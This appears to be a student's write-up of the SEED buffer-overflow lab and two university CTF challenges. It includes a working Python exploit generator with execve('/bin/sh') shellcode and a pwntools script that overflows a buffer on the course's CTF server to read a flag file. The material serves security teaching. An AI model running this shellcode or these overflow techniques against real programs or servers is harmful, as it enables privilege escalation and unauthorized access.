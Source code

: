 # **Week #5**

## **SEEDs Lab**

### **Task 1**

- Shut off the address randomization (no stack and heap addresses randomization), so that the addresses of the variables can be the same in each execution of a program
- Changed shell linked to /bin/sh, so that the shell executed allows for Set-UID program attacks
- Compiled and ran the program
- Both 32-bit and 64-bit versions granted us access to the shell

![Terminal print of lab task1](img/Week5/Lab-Task1-Terminal.png)

### **Task 2**

- Compiled the program using make, which ran a makefile already configured to compile the program with the correct flags to enable the attack, such as turning off the StackGuard, and running the commands to make the program Set-UID
- Checked the permissions of the resulting programs, confirming the Set-UID bit

![Terminal print of lab task1](img/Week5/Lab-Task2-Terminal.png)

### **Task 3**

- **Attempting the buffer overflow**

- First ran the debug version of the program to understand the locations of each variable in the Stack. We used a break point in the function where the overflow is possible to analyze the addresses at that point in the program execution

Terminal 1 | Terminal 2
:---------:|:---------:
![Terminal print of lab task1](img/Week5/Lab-Task3-terminal1.png) | ![Terminal print of lab task1](img/Week5/Lab-Task3-terminal2.png)


- Then, changed the variables in the python script. This script will output to a file the contents to be written on the buffer to overflow
    - Changed the offset to 112, which is the distance between the start of the buffer and the return address, which we want to rewrite
    - Changed the ret value to the address to which we want the program to jump to (ret is the value to be written where offset specifies)
    - Changed the start value to match the start of the shellcode in the buffer with the position the program is going to jump to


<br>

**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 256               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcb6c     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```


- The buffer is filled with NOPs to cover any inaccuracy
- Ran the python script and then ran the program
- We were able to perform the buffer overflow and execute the shellcode

![Terminal print of lab task1](img/Week5/Lab-Task3-attack.png)



## **CTF 5**

### **Task 1**

#### **Checksec**

- No address randomization
- Regions in the memory with RWX permissions
- No cannaries in the stack
- Architecture is x86
- Stack has execute permissions (NX -no execute- disabled)


#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");

    FILE *fd = fopen(meme_file,"r");

    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);

    return 0;
}
```

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes (space it has initialized)
- After 20 bytes/chars, write what you want the array containing the name of file to be open to have (write flag.txt)
- This way the file that will be open is flag.txt

![Terminal print of attack and checksec](img/Week5/CTF-task1.png)

### **Task 2**


#### **Checksec**

- Checksec gives the same Information

![Terminal print Checksec](img/Week5/CTF-checksec2.png)

#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(long*)val == 0xfefc2122) {
        printf("I like what you got!\n");

        FILE *fd = fopen(meme_file,"r");

        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);

    return 0;
}
```

#### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit file

![Terminal print of attack](img/Week5/CTF-attack2.png)

**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt")
r.interactive()
```
